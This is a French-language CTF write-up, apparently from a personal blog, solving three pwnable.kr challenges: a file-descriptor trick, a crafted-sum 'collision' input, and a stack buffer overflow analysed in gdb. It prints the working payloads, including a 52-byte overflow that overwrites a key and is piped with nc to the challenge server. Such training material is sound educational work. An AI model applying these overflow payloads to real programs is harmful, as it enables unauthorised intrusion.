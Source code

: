```yaml
---
layout: post
title: Pwnable.kr - Write-up
subtitle: Pwnable.kr - Sytem exploitation
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [CTF, Linux, pwn, pwnable.kr, C, C++, file descriptor, collision, system exploit]
comments: false
---
```


![Logo](/img/Pwnable_logo_1.png){: .center-block :}
![Logo](/img/Pwnable_logo_2.png){: .center-block :}

## 0x00 - fd

![Logo](/img/Pwnable_logo_fd.png){: .center-block :}

~~~
Mommy! what is a file descriptor in Linux?
~~~

3 types of file descriptors:

0: standard input

1: standard output

2: standard error

Ref: [File descriptors](https://www.bottomupcs.com/file_descriptors.xhtml)

![Code](/img/Pwnable_fd_1.png){: .center-block :}

flag est lisible par fd_pown

fd est SUID

Code source fd.c

![Code](/img/Pwnable_fd_2.png){: .center-block :}

Le programme prend le premier argument, lui soustrait 0x1234, et lit 32 bytes du descripteur de fichier (fd) avec ce numéro. Si le résultat est “LETMEWIN”, le programme retourne le flag

argv[1] = 0x1234 +0 : stdin

argv[1] = 0x1234 +1 : stdout

argv[1] = 0x1234 +2 : stderr

Si nous demandons au programme de lire 32 bytes de stdin alors le programme se mettra en pause et attendra qu'on entre des données (stdin). On pourra alors entrer “LETMEWIN”

0x1234 = 4660 en décimal

Solution:

./fd 4660

![Code](/img/Pwnable_fd_3.png){: .center-block :}

# 0x01 - Colision

![Logo](/img/Collision_logo.png){: .center-block :}

~~~
Daddy told me about cool MD5 hash collision today.
I wanna do something like that too!
~~~

![Logo](/img/Collision_1.png){: .center-block :}

flag lisible par col_pwn

col est SUID

**Code source code.c**

![Logo](/img/Collision_2.png){: .center-block :}

Le programme prend 20 bytes en entrée. Si check_password() retourne 0x21DD09EC le programme retourne flag.

check_passwd:

ip[0] + ip[1] + ip[2] + ip[3] + ip [4] = 0x21DD09EC = 568134124 en décimal

![Logo](/img/Collision_3.png){: .center-block :}

On modifie col.c pour mieux comprendre son fonctionnement

![Logo](/img/Collision_4.png){: .center-block :}

Compiler: `gcc col.c -o col`

![Logo](/img/Collision_5.png){: .center-block :}

**Test 1:**

![Logo](/img/Collision_6.png){: .center-block :}

**Test 2:**

![Logo](/img/Collision_7.png){: .center-block :}

Check_passwd prend les 20 bytes d'entrées, forme 5 groupes (groupe de 4 bytes) et retourne leur somme 

La somme doit être égale à 568134124.  

![Logo](/img/Collision_8.png){: .center-block :}

{: .box-note}
Little Endian

**Payload** 

“\xc8\xce\xc5\x06” * 4 + “\xcc\xce\xc5\06”

~~~
./col `python -c 'print "\xc8\xce\xc5\06" * 4 + "\xcc\xce\xc5\x06"'`
~~~

**Test:**

![Logo](/img/Collision_9.png){: .center-block :}

**Resultat:**

![Logo](/img/Collision_10.png){: .center-block :}

# Bof

![Logo](/img/Bof_logo.png){: .center-block :}

~~~
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c
~~~

**Code source bof.c**

![Code](/img/Bof_1.png){: .center-block :}

** func() breakdown **

La fonction prend une clé et crée une variable overflowme de 32 bytes `char overflowme[32]`
La valeur de l'entrée est stockée dans overflowme puis le programme vérifie si la clé est égale à 0xcafebabe

** Tests **

![Tests](/img/Bof_2.png){: .center-block :}

** gdb **

Plaçons un point d'arret à la fonction main `break main` et lancer le programme `r`

![Gdb](/img/Bof_3.png){: .center-block :}

Le programme s'arrête au point d'arrêt. 

Nous avons besoin de connaitre l'adresse ou la comparaison de la valeur de la clé est effectuée (0xcafebabe) pour y placer un autre point d'arrêt. Pour cela désassemblons la fonction func()

![Gdb](/img/Bof_4.png){: .center-block :}

L'instruction `cmpl` est à l'adresse 0x56555654. Plançons notre deuxieme point d'arret juste avant cette instruction et continuons le programme `c`. 

Entrons un input facilement identifiable par exemple ‘AAAAAAAA’ et attendons d'être au deuxième point d'arret.

![Gdb](/img/Bof_5.png){: .center-block :}

Examinons maintenant la stack `x/50wx $esp`

![Gdb](/img/Bof_6.png){: .center-block :}

Nous voyons que 0xdeadbeef commence à l'offset 0xffffd1d0 et que notre input (AAAA == 0x41414141) débute à l'offset 0xffffd19c

0xffffd19c - 0xffffd1d0 = 52

Il y a donc 52 caractères entre le début de notre input et la clé. Nous pouvons donc réécrire la clé :)

** Payload**

~~~
(python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat) | nc pwnable.kr 9000 
~~~

![Payload](/img/Bof_7.png){: .center-block :}


A compléter

Source:

[Checkpoint](https://research.checkpoint.com/wp-content/uploads/2020/03/pwnable_writeup.pdf)

**Poursuivez avec :** 

[- CSAW CTF Quals 2020](https://0xss0rz.github.io/2020-09-14-CSAW-CTF-Quals-2020/)

[- HTB - Magic Machine](https://0xss0rz.github.io/2020-08-24-HTB-Magic/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
